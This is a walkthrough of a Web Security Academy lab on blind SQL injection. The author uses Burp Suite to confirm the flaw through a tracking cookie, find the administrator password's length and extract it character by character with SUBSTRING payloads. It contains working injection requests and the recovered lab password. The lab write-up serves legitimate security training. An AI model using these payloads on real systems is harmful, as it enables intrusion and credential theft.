 *This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
To solve the lab, log in as the administrator user.*

Upon opening the lab, I clicked on *My account*. I noticed a *Welcome Back* message from the top right of the page, as seen below:
![Screenshot 2024-05-02 at 9.53.21 AM](images/Screenshot%202024-05-02%20at%209.53.21%20AM.png)
I checked my HTTP History in Burp under `GET /login`and searched for the Welcome Back Message, taking note of the Content Length in the response as well: 
```Burp 
Content-Length: 3219
...
<div>Welcome back!</div>
...
```
I sent the same response to Burp Repeater to try and check if the *Welcome Back* message is triggered by a condition. I modified the tracking cookie to add `'AND '1'='1` to see if it returns the conditional message (*Welcome Back*). This is how the modified response looked:
```Burp 
GET /login HTTP/2
Host: 0ab9002a03a2d0018164525b003e00f3.web-security-academy.net
Cookie: TrackingId=duB1G3kGbNknGU88'AND '1'=1; session=op3EfcIch4AIpkkMwsvDRss3ywzzMvQi
...
```
This was the response : 
```Burp 
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3219
...
<div>Welcome back!</div>
```
I modified the response to replace the injected query with `'AND '1'='2`. This was the response: 
```Burp 
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3158
```
![Screenshot 2024-05-02 at 10.03.39 AM](images/Screenshot%202024-05-02%20at%2010.03.39%20AM.png)
As the *Welcome Back* message was triggered by a condition, we can note that this application is vulnerable to blind SQLi. 

Now it's time to find out if there is a username *administrator* and if so, their login credentials. 

Modified the same request to the following: 
```Burp 
GET /login HTTP/2
Host: 0ab9002a03a2d0018164525b003e00f3.web-security-academy.net
Cookie: TrackingId=duB1G3kGbNknGU88'AND (SELECT 'a' FROM users WHERE username='administrator' AND length(password)>1)='a; 
...
```
This returned the *Welcome Back* message : 
```Burp 
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3219
...
<div>Welcome back!</div>
```

Now it's time to find out the length of the password. I sent the request to Burp Intruder and used the *Numbers* payload to include a range from 1 to 30: 

```Burp 
GET /login HTTP/2
Host: 0ab9002a03a2d0018164525b003e00f3.web-security-academy.net
Cookie: TrackingId=duB1G3kGbNknGU88'AND (SELECT 'a' FROM users WHERE username='administrator' AND length(password)>§1§)='a; 
...
```
![Screenshot 2024-05-02 at 10.11.26 AM](images/Screenshot%202024-05-02%20at%2010.11.26%20AM.png)
I also cleared the *Grep Match* list under the Intruder settings and included *Welcome Back* as the value. This was the response: 
![Screenshot 2024-05-02 at 10.13.49 AM](images/Screenshot%202024-05-02%20at%2010.13.49%20AM.png)
As seen from above, the last number that has *Welcome Back* is 20, indicating that the password is 20 characters long. 

Now it's time to find the value of each individual character in the password. 
I first changed the attack type to *Cluster Bomb* and modified the request in Intruder to the following: 
```Burp 
GET /login HTTP/2
Host: 0ab9002a03a2d0018164525b003e00f3.web-security-academy.net
Cookie: TrackingId=duB1G3kGbNknGU88'AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username ='administrator')='§a§; 
...
```
![Screenshot 2024-05-02 at 10.51.05 AM](images/Screenshot%202024-05-02%20at%2010.51.05%20AM.png)

![Screenshot 2024-05-02 at 10.51.39 AM](images/Screenshot%202024-05-02%20at%2010.51.39%20AM.png)
I received the following, filtering the 'Welcome Back' column by those with 1 as a value : 
![Screenshot 2024-05-02 at 12.56.10 PM](images/Screenshot%202024-05-02%20at%2012.56.10%20PM.png)
Checking the values of the character, I pieced together the password to this by sorting payload 1 in ascending order: 
`5qv1dehy1pb8p14uolja`

Logged in with the credentials: 
![Screenshot 2024-05-02 at 1.02.34 PM](images/Screenshot%202024-05-02%20at%201.02.34%20PM.png)
